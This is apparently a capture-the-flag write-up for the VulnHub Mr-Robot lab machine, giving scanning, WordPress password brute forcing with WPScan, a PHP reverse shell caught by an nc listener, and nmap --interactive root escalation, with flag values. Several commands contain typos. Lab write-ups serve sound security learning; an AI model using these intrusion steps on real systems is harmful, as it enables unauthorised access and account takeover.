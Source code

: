 # VulnHub Mr.Robot Write - Up
## Overview
- **Machine Name:** [Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/ "Mr-Robot: 1 on Vulnhub")
- **Platform:** VulnHub
- **Difficulty:**  Beginner-Intermediate
- **Date Completed:** August 17, 2025
- **Tools Used:** Kali Linux, nmap, GoBuster, WPScan nano, Python
## Objectives
- Capture all three flags
- Learn and demonstrate exploitation and escalation techniques

---

## Methodology

### 1. Information Gathering
~~~

sudo nmap -sS -T4 10.38.110-120 

~~~
- Identify the ports on the machine to evaluate the type of machine  
 - Port 80 (HTTP) open -> Apache web server detected  
 - Port 443 (HTTPS) open  
 - Port 22 (SSH) open  
### 2. Enumeration (Flag 2)
~~~

gobuster dir -u http://10.38.1.111 -w/usr/share/dirbuster/wordlist/directory -list-2.3-small.txt

~~~
- Swept the machines location to find additional dir and files using GoBuster  
- /robots.txt -> contained the extension which led to the first flag as well as a dictionary  
- WordPress login page discovered -> potential attack vector with the dictionary list discovered in robots.txt  
~~~

cat fsociety.dic | sort -u> filtered.dic

~~~
- Sorted the dictionary list to remove redundancies and order them alphabetically creating the new filtered.dic

### 3. Exploitation (Flag 2)
~~~

wpscan --url http://10.38.1.111/wp-login/php -U 'elliot' -P filtered.txt

~~~
- Ran the filtered text against the password with the username elliot
- Obtained user-level shell access
~~~

locate php-re

gedit php-reverse-shll.php

~~~
- Locate and edit the contents of a reverse-php-shell which will allow us access into the

~~~

nc -lvnp 443

~~~
- We trigger the script by navigating to a URL that does not exist  
 - Within the machine, we were able to locate the /home/robot directory -> We find two files a .raw-md5 and a .txt  
 - We crack the hash to find the password for robot  
 - Now that we have the password we can login to the Mr.Robot and read .txt  
### 4. Privilege Escalation (Flag 3)


~~~

python -c 'import pty;pty.spawn("/bin/bash")'

su robot

~~~

~~~

which nmap
nmap --version
export TERM=xterm
nmap --interactive
!/bin/bash
id
whoami
exit
!sudo /bin/bash
!id
!whoami
!sh

~~~


---

## Flags Captured  
Flag 1: 073403c8a58a1f80d943455fb30724b9  
Flag 2: 822c73956184f694993bede3eb39f959  
Flag 3: 04787ddef27c3dee1ee161b21670b4e4  
---

## Lessons Learned
- Deploy password salting  
- Require login attempt limit for timeframes
- 
- 
---

## References
Mahcine on Vulnhub: https://www.vulnhub.com/entry/mr-robot-1,151/
Video Tutorial: https://www.youtube.com/watch?v=D_aiSOmC6V8

